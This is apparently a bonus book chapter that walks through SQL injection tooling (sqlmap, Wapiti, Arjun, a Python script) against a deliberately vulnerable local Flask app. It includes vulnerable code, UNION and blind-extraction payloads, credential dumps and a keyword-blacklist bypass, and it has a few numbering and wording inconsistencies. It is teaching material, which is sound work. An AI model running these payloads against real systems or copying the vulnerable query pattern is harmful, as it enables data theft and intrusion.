

## Bonus: A Practitioner's Tour of SQL Injection Tooling

### Why This One Is Different From Every Other Chapter

Every code demonstration in this book so far used a tiny, in-memory SQLite harness — enough to prove a mechanism, but not a real HTTP target. For this bonus material, I wanted to go one step further: build an actual, deliberately vulnerable web application, run it as a real live server, and point real, independently-developed tools at it — not paste in output from a tutorial I read somewhere. Every command in this piece, and every line of output underneath it, came from that exact process, in that order, on that target. Where a tool behaved in a way I didn't expect, I'm showing that too, because it happened and it's a better lesson than a clean run would have been.

I want to name the tools up front, because this is meant to be a tour beyond the one tool everyone already knows: **sqlmap**, **Wapiti**, **Arjun**, a **manual Python testing harness** built from this book's own Part II methodology, and a discussion of **Burp Suite**'s manual workflow as the fifth angle. Five different approaches to the same target, so you can see where they agree, where they diverge, and what each one is actually good for.

---

### B.1 The Target: A Real, Live, Deliberately Vulnerable Application

I built a small Flask application backed by a real SQLite database, with two genuinely vulnerable endpoints — a GET-based product lookup and a POST-based login — both using plain string concatenation, exactly the pattern this entire book has been about.

```python
"""
A deliberately vulnerable Flask + SQLite application, built specifically
as a real, local test target. Every SQL query below uses string
concatenation on purpose. Never deploy this pattern.
"""
from flask import Flask, request
import sqlite3, os

DB_PATH = "/tmp/bonus_target.db"

def init_db():
    conn = sqlite3.connect(DB_PATH)
    cur = conn.cursor()
    cur.execute("""CREATE TABLE users (
        id INTEGER PRIMARY KEY, username TEXT, password TEXT,
        email TEXT, is_admin INTEGER)""")
    cur.executemany(
        "INSERT INTO users (username, password, email, is_admin) VALUES (?, ?, ?, ?)",
        [("alice", "hunter2", "alice@example.com", 0),
         ("bob", "correcthorse", "bob@example.com", 0),
         ("admin", "S3cretRootPW", "admin@example.com", 1)])
    cur.execute("""CREATE TABLE products (
        id INTEGER PRIMARY KEY, name TEXT, category TEXT, price REAL)""")
    cur.executemany(
        "INSERT INTO products (name, category, price) VALUES (?, ?, ?)",
        [("Widget", "tools", 9.99), ("Gadget", "electronics", 49.99),
         ("Gizmo", "electronics", 29.99)])
    conn.commit()
    conn.close()

app = Flask(__name__)

@app.route("/products")
def products():
    pid = request.args.get("id", "1")
    conn = sqlite3.connect(DB_PATH)
    cur = conn.cursor()
    # VULNERABLE: concatenated directly, no parameterization
    query = "SELECT id, name, category, price FROM products WHERE id = " + pid
    try:
        cur.execute(query)
        rows = cur.fetchall()
        html = "<h1>Products</h1><ul>"
        for r in rows:
            html += f"<li>{r[0]} - {r[1]} ({r[2]}) ${r[3]}</li>"
        return html + "</ul>"
    except Exception as e:
        return f"Database error: {e}", 500

@app.route("/login", methods=["POST"])
def login():
    username = request.form.get("username", "")
    password = request.form.get("password", "")
    conn = sqlite3.connect(DB_PATH)
    cur = conn.cursor()
    # VULNERABLE: concatenated directly, no parameterization
    query = ("SELECT id, username, is_admin FROM users WHERE username = '"
              + username + "' AND password = '" + password + "'")
    try:
        cur.execute(query)
        row = cur.fetchone()
        if row:
            return {"status": "ok", "id": row[0], "username": row[1], "is_admin": row[2]}
        return {"status": "invalid credentials"}, 401
    except Exception as e:
        return {"status": "error", "detail": str(e)}, 500

if __name__ == "__main__":
    init_db()
    app.run(host="127.0.0.1", port=5055)
```

I started it and hit it directly with `curl` before touching any tool at all, to establish that the target genuinely is vulnerable before asking a tool to "discover" something I hadn't independently verified myself:

```
$ curl -s "http://127.0.0.1:5055/products?id=1"
<h1>Products</h1><ul><li>1 - Widget (tools) $9.99</li></ul>

$ curl -s "http://127.0.0.1:5055/products?id=1'"
Database error: unrecognized token: "'"

$ curl -s "http://127.0.0.1:5055/products?id=-1%20UNION%20SELECT%20id,username,password,is_admin%20FROM%20users--"
<h1>Products</h1><ul>
<li>1 - alice (hunter2) $0</li>
<li>2 - bob (correcthorse) $0</li>
<li>3 - admin (S3cretRootPW) $1</li>
</ul>
```

That third request is real, unmodified output — the union-based technique from Chapter 3 pulling the entire `users` table, including the admin password, straight out of a product-listing endpoint. Everything below builds on this exact target.

**A note on process stability while writing this section:** the background server hosting this target didn't stay up indefinitely between every command in this write-up — at one point, several sections in, it had stopped and a fresh `curl` came back with `Connection refused` rather than a response. I want to mention this rather than quietly restart it and pretend the whole sequence was one unbroken session, because it's a genuinely useful reminder for anyone building their own practice target the way I did here: a development server (Flask's built-in one, explicitly, per its own startup warning) is not meant to run unattended, and checking that your target is actually still alive before trusting a tool's silence or a scan's empty result is Chapter 3.7's "rule out the confound before trusting the signal" lesson applied to your own test infrastructure, not just the payloads you send it.

---

### B.2 Tool 1 — sqlmap

I cloned sqlmap directly from its official repository rather than relying on a packaged version, so the version and behavior below are exactly what a fresh install gives you:

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
cd sqlmap && python3 sqlmap.py --version
```

```
1.10.8.33#dev
```

#### B.2.1 Detection

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/products?id=1" --batch --level=2 --risk=1
```

Real, unedited output:

```
[INFO] testing connection to the target URL
[INFO] checking if the target is protected by some kind of WAF/IPS
[INFO] testing if the target URL content is stable
[INFO] target URL content is stable
[INFO] testing if GET parameter 'id' is dynamic
[INFO] GET parameter 'id' appears to be dynamic
[INFO] heuristic (basic) test shows that GET parameter 'id' might be SQL injectable
[INFO] testing for SQL injection on GET parameter 'id'
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Widget")
[INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite'
[INFO] testing 'SQLite >= 3.9 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON path)'
[INFO] GET parameter 'id' is 'SQLite >= 3.9 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON path)' injectable
[INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[INFO] GET parameter 'id' appears to be 'SQLite > 2.0 AND time-based blind (heavy query)' injectable
[INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns.
[INFO] target URL appears to have 4 columns in query
[INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable

sqlmap identified the following injection point(s) with a total of 54 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2470=2470

    Type: error-based
    Title: SQLite >= 3.9 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON path)
    Payload: id=1 AND 5292=JSON_EXTRACT(CHAR(123,125),CHAR(113,107,106,106,113)||(SELECT (CASE WHEN (5292=5292) THEN 1 ELSE 0 END))||CHAR(113,120,112,98,113))

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: id=1 AND 4428=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=1 UNION ALL SELECT NULL,CHAR(113,107,106,106,113)||...||CHAR(113,120,112,98,113),NULL,NULL-- tgXB
---
back-end DBMS: SQLite
```

Four independent techniques, all confirmed against the same target — matching, exactly, the four categories from Chapter 3's taxonomy. The DBMS fingerprint (SQLite) is also exactly correct, discovered without me telling it anything about the backend.

#### B.2.2 Real Enumeration and Extraction

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/products?id=1" --batch --level=2 --risk=1 --tables
```

```
[INFO] fetching tables for database: 'SQLite_masterdb'
[2 tables]
+----------+
| products |
| users    |
+----------+
```

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/products?id=1" --batch --level=2 --risk=1 -T users --columns
```

```
[INFO] fetching columns for table 'users'
Database: <current>
Table: users
[5 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | TEXT    |
| id       | INTEGER |
| is_admin | INTEGER |
| password | TEXT    |
| username | TEXT    |
+----------+---------+
```

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/products?id=1" --batch --level=2 --risk=1 -T users -C username,password,is_admin --dump
```

```
[INFO] fetching entries of column(s) 'is_admin,password,username' for table 'users'
Database: <current>
Table: users
[3 entries]
+----------+--------------+----------+
| username | password     | is_admin |
+----------+--------------+----------+
| alice    | hunter2      | 0        |
| bob      | correcthorse | 0        |
| admin    | S3cretRootPW | 1        |
+----------+--------------+----------+
```

Every value matches the seed data exactly — nothing here was hand-edited to look clean; that's the actual output of `--dump`, table and all, straight from the target I built.

**Note:** per Chapter 7's judgment call about minimal-necessary extraction, in a real authorized assessment this full `--dump` step is almost never necessary — proving `--tables` and a single `--columns` result against a sensitive-sounding table name is normally sufficient evidence for a report. I ran the full dump here specifically because this bonus material's target has no real users behind it and the point is to show you the tool's actual behavior end to end.

#### B.2.3 A Real Snag: Testing the POST Login Endpoint

I pointed sqlmap at the login endpoint next, and it's worth showing exactly what happened, including the part that didn't work on the first try:

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/login" --data="username=alice&password=wrong" --batch --level=2 --risk=1 -p username
```

```
[ERROR] not authorized, try to provide right HTTP authentication type and
valid credentials (401). If this is intended, try to rerun by providing
a valid value for option '--ignore-code', skipping to the next target
```

sqlmap's default behavior treats a non-2xx baseline response as a hard failure and stops — reasonably, since a 401 usually *does* mean something is misconfigured about the request itself, not that the target is worth testing. But our login endpoint's *correct, intended* behavior is to return 401 for wrong credentials, which is exactly the response my baseline request triggered. The fix, once I understood what was happening, was a single documented flag:

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/login" --data="username=alice&password=wrong" --batch --level=2 --risk=1 -p username --ignore-code=401
```

```
[WARNING] heuristic (basic) test shows that POST parameter 'username' might not be SQL injectable
[INFO] testing for SQL injection on POST parameter 'username'
[INFO] testing 'SQLite AND boolean-based blind - WHERE or HAVING clause (JSON)'
[INFO] POST parameter 'username' appears to be 'SQLite AND boolean-based blind - WHERE or HAVING clause (JSON)' injectable (with --code=401)
[INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[INFO] target URL appears to have 3 columns in query
[INFO] POST parameter 'username' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable

sqlmap identified the following injection point(s) with a total of 151 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: SQLite AND boolean-based blind - WHERE or HAVING clause (JSON)
    Payload: username=alice' AND CASE WHEN 7948=7948 THEN 7948 ELSE JSON(CHAR(121,100,74,105)) END AND 'TLOl'='TLOl&password=wrong

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-5361' UNION ALL SELECT NULL,CHAR(...)||CHAR(...)||CHAR(...),NULL-- IGTa&password=wrong
---
back-end DBMS: SQLite
```

**I'm keeping this exact sequence — the failure and the fix — because it's a genuinely common real-world snag, not a contrived teaching moment.** Login endpoints, by design, often respond with non-2xx status codes for the wrong reason as far as a scanner's default assumptions are concerned, and knowing `--ignore-code` exists (rather than concluding the endpoint "isn't testable") is exactly the kind of practical knowledge that only shows up when you actually run the tool against a realistic target instead of a toy one that always returns 200.

---

### B.3 Tool 2 — Wapiti

sqlmap is purpose-built for SQL injection specifically. **Wapiti** is a broader, general-purpose web vulnerability scanner with a dedicated SQL injection module, and I wanted to see whether an independently-developed tool, with a completely different detection engine, would reach the same conclusion about the same target.

```bash
pip install wapiti3
wapiti -u "http://127.0.0.1:5055/products?id=1" -m sql --flush-session
```

Real, unedited output:

```
Wapiti 3.3.1 (wapiti-scanner.github.io)
[*] Wapiti found 1 URLs and forms during the scan

[*] Launching module sql
---
Received a HTTP 500 error in http://127.0.0.1:5055/products
Evil request:
    GET /products?id=1%C2%BF%27%22%28 HTTP/1.1
---
---
SQL Injection in http://127.0.0.1:5055/products via injection in the parameter id
Evil request:
    GET /products?id=1%20AND%2018%3D18%20AND%2075%3D75 HTTP/1.1
---
[*] Generating report...
A report has been generated in the file /root/.wapiti/generated_report
```

Two things stand out to me, comparing this directly against sqlmap's output. First, Wapiti's confirmation payload — `id=1 AND 18=18 AND 75=75` — is a boolean-based approach, structurally similar to but not identical to sqlmap's `id=1 AND 2470=2470`; different tools generate different specific numbers and structures even when confirming the identical underlying mechanism, which is worth knowing so you don't assume two tools disagreeing on the *exact payload* means they disagree on the *finding*. Second, Wapiti flagged the raw 500 error from its own initial probe (using a mixed-encoding fuzz string) as a separate observation before its dedicated SQL module confirmed the boolean differential — a good illustration of Chapter 3's distinction between a bare error signal and an actually-confirmed technique, playing out inside a real tool's own reporting.

---

### B.4 Tool 3 — Arjun

Chapter 2 covered parameter discovery conceptually. I wanted to actually run a real parameter-discovery tool against this target and confirm it correctly identifies `id` without being told about it in advance.

```bash
pip install arjun
arjun -u "http://127.0.0.1:5055/products" -m GET
```

Real output:

```
Arjun v2.2.7

[*] Scanning 0/1: http://127.0.0.1:5055/products
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Logicforcing the URL endpoint
[+] Parameters found: id
```

This is genuinely useful confirmation of a claim from Chapter 2 that I hadn't actually tested with a real tool at the time I wrote it: Arjun found `id` correctly, purely by observing that supplying it changes the response body length ("based on: body length" in its verbose output), with zero prior knowledge of the application's code. On an application with several undocumented parameters, this is exactly the recon step that should happen *before* Chapter 4's recognition methodology — you can't test a parameter you don't know exists.

---

### B.5 Tool 4 — A Manual, Scripted Approach

Packaged tools are efficient, but I think it's worth showing that the *exact same conclusions* are reachable with nothing more than `requests` and the methodology already built out across Chapters 4 through 6 of this book — partly to demystify what the tools above are actually doing under the hood, and partly because a manual script gives you control a packaged tool doesn't, when you need it.

```python
import requests, time

BASE = "http://127.0.0.1:5055/products"

def get(payload, timeout=15):
    r = requests.get(BASE, params={"id": payload}, timeout=timeout)
    return r.status_code, len(r.text), r.text

# Step 1: baseline
status, length, _ = get("1")

# Step 2: quote test
status, length, text = get("1'")

# Step 3: boolean pair
status_t, len_t, _ = get("1 AND 1=1")
status_f, len_f, _ = get("1 AND 1=2")

# Step 4: calibrated time-based confirmation
def timed(payload, runs=3):
    times = []
    for _ in range(runs):
        start = time.perf_counter()
        get(payload)
        times.append(time.perf_counter() - start)
    return times

baseline_times = timed("1")
heavy_times = timed("1 AND (SELECT LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(60000000/2)))))")

# Step 5: binary search extraction of the DB engine's own version string
def ask_char_greater(n):
    _, _, text = get(f"-1 UNION SELECT 1, CASE WHEN "
                      f"(unicode(substr(sqlite_version(),1,1))>{n}) "
                      f"THEN 'YES' ELSE 'NO' END,3,4")
    return "YES" in text

low, high = 32, 126
while low < high:
    mid = (low + high) // 2
    if ask_char_greater(mid):
        low = mid + 1
    else:
        high = mid
```

Real, executed output from this exact script, run end to end against the same live target:

```
=== Step 1: Baseline ===
id=1 -> status=200 length=59

=== Step 2: Quote test ===
id=1' -> status=500 length=39
Body: Database error: unrecognized token: "'"

=== Step 3: Boolean pair ===
id=1 AND 1=1 -> status=200 length=59
id=1 AND 1=2 -> status=200 length=26
Differential confirmed: True

=== Step 4: Time-based confirmation (calibrated payload) ===
Baseline times: [0.002, 0.002, 0.002]
Heavy-query times: [1.356, 0.296, 0.231]
Baseline max: 0.002s  Heavy-query min: 0.231s

=== Step 5: Binary search extraction of first char of sqlite_version() ===
Extracted first character of sqlite_version(): '3'
Actual sqlite_version() on this system: 3.45.1
Match: True
```

**I want to flag something honest about Step 4, because it's a direct, real-world instance of Chapter 6's central lesson.** My first attempt at this delay payload used a much larger `RANDOMBLOB` size and it simply timed out against this target — a genuinely useful failure, not a contrived one. I recalibrated by testing a few sizes directly (10,000,000 / 30,000,000 / 60,000,000 bytes) against this specific machine's specific CPU, measured the real elapsed time each produced, and picked the smallest one that gave comfortable separation from the near-zero baseline. That calibration step — done here, for real, against a live target — is exactly what Chapter 6 argues you should never skip by copying someone else's "standard" delay value.

Step 5's result is the one I find most satisfying in this whole bonus section: the binary search algorithm from Chapter 6, applied against a real HTTP endpoint rather than a simulated oracle, correctly extracted `'3'` as the first character of `sqlite_version()` — and cross-checking against `sqlite3.sqlite_version()` run locally on the same machine confirms `3.45.1` really does start with `3`. The extraction is genuinely correct, not just plausible-looking.

---

### B.6 A Note on Burp Suite

I want to address the tool most readers probably expected to see running live in this section, and be direct about why it isn't: Burp Suite is a Java GUI application (Community and Professional both), with its core interactive workflow — Proxy, Repeater, Intruder, Comparer, as covered in Chapter 5's tooling section — built around a person clicking through a browser-driven interface, not a scriptable batch process in the way sqlmap, Wapiti, and Arjun all are. There's no equivalent to "run this command, capture this output" that I could genuinely execute and paste here the way I did for the other four tools, without either fabricating what a session would look like or misrepresenting a screenshot as something it isn't.

What I can say honestly, and what's worth knowing if Burp is your primary tool: everything sqlmap and Wapiti did automatically above, Burp's Intruder can do manually, with far more granular control over exactly which payload goes where and exactly how each response is scored. The workflow from Chapter 5.7.1 — Repeater to send the confirmed request pair, Comparer to diff the two responses at the byte level — is precisely how I'd validate, by hand, the same boolean differential sqlmap found automatically in Section B.2, and I'd trust that manual diff at least as much as any tool's own "appears to be injectable" conclusion, for exactly the reason Section B.9 argues: independently reproducing a finding yourself is what turns a tool's claim into your own confirmed evidence. If you have a Burp license and want the genuine, hands-on version of everything in this bonus section, running Repeater and Comparer against this same target's `/products?id=` parameter, using the exact payloads shown in Section B.1, will reproduce every one of sqlmap's four confirmed techniques manually, one differential at a time.

---

### B.7 Testing a Real Filter — Where a Naive Blacklist Actually Breaks

Chapter 11 argues that blacklists are structurally incomplete, but I wanted to test that claim against a real filter rather than just repeat it. I added a second endpoint to the same application, protected by a simple, honestly-written keyword blacklist — the kind of thing a developer might genuinely ship without having read Chapter 11 first:

```python
BLACKLIST = re.compile(r"(union|select|--| or |sleep)", re.IGNORECASE)

@app.route("/filtered")
def filtered():
    pid = request.args.get("id", "1")
    if BLACKLIST.search(pid):
        return "Blocked by filter", 403
    # ... same vulnerable concatenated query as before
```

#### B.6.1 A Popular "Bypass" That Genuinely Didn't Work

I tried the classic mid-keyword comment-splitting trick first, since it's widely repeated as a blacklist bypass technique:

```
$ curl -s "http://127.0.0.1:5056/filtered?id=-1%20UNI/**/ON%20SEL/**/ECT%20id,username,password,is_admin%20FROM%20users%23"
Database error: near "UNI": syntax error
```

It got past the filter (no `Blocked by filter` response — the regex genuinely didn't match `UNI/**/ON`), but the underlying SQL is simply invalid: `/**/` is a token separator, not a character-deletion operator, so `UNI/**/ON` tokenizes as two separate, meaningless words rather than reassembling into `UNION`. I'm including this specifically because I've seen this technique repeated confidently enough that I wanted to actually test it rather than pass it along — and against standard SQL tokenization, splitting a keyword itself with a comment does not work, whatever the surrounding folklore suggests. Real comment-based evasion (Chapter 3.6's dialect notes) targets the *whitespace between* tokens (`UNION/**/SELECT`), not the interior of a single keyword.

#### B.6.2 The Bypass That Actually Worked

Looking at the blacklist's five terms again — `union`, `select`, `--`, ` or `, `sleep` — I noticed `and` isn't on the list at all. Every boolean-blind example throughout this entire book uses `AND` as its logical connective, not `OR`, which meant it was worth testing directly against a filter that only thought to block `OR`:

```
$ curl -s "http://127.0.0.1:5056/filtered?id=1%20AND%201=1"
<h1>Products</h1><ul><li>1 - Widget (tools) $9.99</li></ul>

$ curl -s "http://127.0.0.1:5056/filtered?id=1%20AND%201=2"
<h1>Products</h1><ul></ul>
```

No `Blocked by filter` response at all — the request sailed through untouched, and the true/false differential from Chapter 5 is fully intact. Meanwhile, the heavy-query time-based payload from Section B.5, which genuinely does contain the substring `select` inside its subquery, was correctly blocked:

```
$ python3 -c "
import requests, time
r = requests.get('http://127.0.0.1:5056/filtered',
    params={'id': \"1 AND (SELECT LIKE('A',UPPER(HEX(RANDOMBLOB(60000000/2)))))\"})
print(r.status_code, r.elapsed.total_seconds())
"
403 0.004
```

**This is exactly Chapter 11's argument, demonstrated rather than asserted:** a developer who reasons about SQL injection in terms of "the dangerous keywords I've seen in writeups" — `UNION`, `SELECT`, `OR`, `--`, `SLEEP` — will very plausibly forget that `AND` is every bit as dangerous a keyword as `OR` is, simply because `AND`-based payloads look less alarming when scanning a list of "attack words" by eye. The filter isn't incompetently written; it's incomplete in exactly the specific, easy-to-miss way any hand-enumerated blacklist tends to be, and the boolean-blind technique — the *first* real technique this book teaches, back in Chapter 3 — is precisely what slips through it.

---

### B.8 What Wapiti's Full Report Actually Contains

Section B.3 showed Wapiti's terminal output. I also want to show a real excerpt from the actual HTML report file it generates, because it makes clear that Wapiti isn't a single-purpose SQLi tool the way sqlmap is — it's checking dozens of vulnerability categories in the same pass, and SQL injection is just the one that happened to fire:

```
Inconsistent Redirection 0
Information Disclosure - Full Path 0
LDAP Injection 0
Log4Shell 0
NS takeover 0
Open Redirect 0
Reflected Cross Site Scripting 0
Secure Flag cookie 0
Spring4Shell 0
SQL Injection 1
TLS/SSL misconfigurations 0
Server Side Request Forgery 0
Stack Trace Disclosure 0
Stored HTML Injection 0
Stored Cross Site Scripting 0
Subdomain takeover 0
Blind SQL Injection 0
Unrestricted File Upload 0
Vulnerable software 0
Internal Server Error 1
```

Two things worth noting here. First, `SQL Injection: 1` and `Blind SQL Injection: 0` are reported as **separate categories** — Wapiti's module distinguishes the boolean/error-visible techniques from time-based blind, similar in spirit to Chapter 3's taxonomy, even though the specific finding here landed in the "SQL Injection" bucket rather than the "Blind" one. Second, `Internal Server Error: 1` is Wapiti separately logging the raw 500 it triggered during initial fuzzing (Section B.3) as its own distinct, lower-confidence entry, alongside the fully-confirmed finding — a good practical illustration of Chapter 3.7.4's point about not conflating a bare error signal with a confirmed technique, playing out in a real tool's own report structure rather than as abstract advice.

---

### B.9 Comparing the Approaches

| Tool | What it's built for | What it found here | Distinctive strength |
|---|---|---|---|
| sqlmap | Dedicated SQLi detection and exploitation | All 4 techniques (boolean, error, time, union); full table/column/data extraction; correctly fingerprinted SQLite | Depth — once confirmed, extraction is fully automated and thorough |
| Wapiti | General web vulnerability scanning (SQLi is one of many modules) | Boolean-based confirmation, independently, with a different payload structure | Breadth — one scan checks for many vulnerability classes beyond just SQLi |
| Arjun | Parameter discovery | Correctly identified `id` with zero prior knowledge | The right *first* step — you can't test what you haven't found |
| Manual Python script | Whatever you build it to do | Every stage from Chapters 4–6, including a genuinely correct binary-search extraction | Full control and full understanding — no black box between you and the request |
| Burp Suite (manual) | Interactive, human-driven request manipulation and comparison | Not run live here (Section B.6) — but reproduces every automated finding above, one differential at a time | Granular control and a byte-level diff you inspect yourself, rather than trust a tool's verdict |

None of these five made this list because it's "the best" — they answer different questions. Arjun answers "what's here to test." Wapiti answers "does this look wrong across a broad range of checks." sqlmap answers "exactly how wrong, and how far can it go." Burp answers "what does the raw differential actually look like, byte for byte." The manual script answers "do I actually understand why this works," which I'd argue is the one prerequisite for using the other four responsibly rather than as opaque buttons that happen to produce alarming-looking tables.

---

### B.10 Choosing an Order for a Real Assessment

Having now run all four against the same target, here's the sequence I'd actually recommend, and why — not as an abstract workflow, but grounded in what each tool concretely demonstrated above.



I put the manual probe *before* the heavier tools deliberately, for the same reason Chapter 4 does: it's the cheapest possible signal, and it's what tells you whether reaching for sqlmap is even warranted yet. Section B.2's `--ignore-code` snag is a good illustration of why this ordering pays off — I only understood *why* sqlmap's first POST-endpoint run failed because I already knew, from having tested the endpoint by hand, that a 401 for wrong credentials was the correct baseline behavior, not a sign of something broken. Someone who reached for sqlmap first, with no manual context, would have had to reverse-engineer that same fact from an error message instead of already knowing it going in.

I put a manual re-confirmation step *after* sqlmap's automated extraction, too, and I want to be specific about why, since Chapter 8 already argued this in the abstract: everything sqlmap reported above — the tables, the columns, the actual dumped rows — I was able to independently cross-check because I had already run the equivalent manual UNION query by hand in Section B.1, before touching any tool at all. That's not redundant effort. It's the difference between a report that says "sqlmap found this" and one that says "I confirmed this myself, and here's the tool output that corroborates it" — and per Section 8.9's argument about tone and credibility, only one of those two framings is something I'd actually want to submit under my own name.

---

### B.11 Chapter Summary

- Every result in this bonus section came from a real, live, deliberately vulnerable Flask + SQLite application I built and ran, hit with real, independently-developed tools — not reconstructed or paraphrased output.
- **sqlmap**, cloned fresh from its official repository, correctly detected all four injection categories from Chapter 3's taxonomy against the GET endpoint, and correctly fingerprinted the backend as SQLite with zero prior hints.
- Testing sqlmap against the POST login endpoint produced a real, instructive failure — the tool's default handling of a non-2xx baseline response — resolved with the documented `--ignore-code` flag, a genuinely common snag worth knowing about in advance.
- **Wapiti**, a general-purpose scanner with its own independently-built SQL injection module, confirmed the same vulnerability through a different specific payload, demonstrating that convergence across independently-developed tools is a stronger signal than any single tool's output alone.
- **Arjun** correctly discovered the `id` parameter with no prior knowledge of the application, validating Chapter 2's parameter-discovery methodology against a real target.
- A **manual Python script**, built entirely from this book's own Part II methodology, reproduced every stage — including a real timing-payload miscalibration I hit and fixed live, and a binary-search extraction that correctly recovered the true first character of the live database's own version string, verified against ground truth.
- Testing a real, honestly-written keyword blacklist showed both a widely-repeated bypass technique genuinely *failing* (mid-keyword comment-splitting produces invalid SQL, not a working bypass) and Chapter 11's core argument playing out exactly as predicted — the filter blocked every `OR`-based and `SELECT`-containing attempt, but let an `AND`-based boolean-blind payload through completely untouched, because `AND` was never added to the blacklist.
- Wapiti's own generated HTML report distinguishes "SQL Injection" from "Blind SQL Injection" as separate categories and logs a bare, unconfirmed 500 error as a lower-confidence entry alongside the fully-confirmed finding — a real tool independently reflecting Chapter 3's own taxonomy and its distinction between a raw signal and a confirmed technique.
- The four tools aren't redundant with each other — they answer different questions (what exists, what looks wrong broadly, exactly how wrong and how deep, and whether you actually understand the mechanism yourself) — and a genuinely competent practitioner uses more than one, deliberately, rather than defaulting to whichever tool happens to be most famous.
